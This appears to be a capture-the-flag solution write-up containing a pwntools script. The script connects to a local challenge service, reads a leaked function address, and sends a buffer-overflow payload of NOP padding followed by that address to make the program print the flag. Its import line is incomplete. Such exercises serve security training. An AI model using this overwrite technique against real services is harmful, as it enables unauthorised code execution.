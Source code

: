# Solution

1. Need to do some form of socket programming. Following code requires pwntools to be installed:

    ```python
    #!/usr/bin/python3

    from pwn import

    context.update(arch='i386',os='linux')

    server_ip = "localhost"
    con = remote(server_ip,7729)

    output = (con.recvuntil(b'?:')).decode('utf-8')
    print_flag_addr = output.split(' ')[4][:-3]

    payload = asm('nop') * 32 + p32(int(print_flag_addr,16)) + asm('nop') * (50-32-4)
    con.sendline(payload)

    data = con.recvuntil(b'}')
    print(data)
    ``` 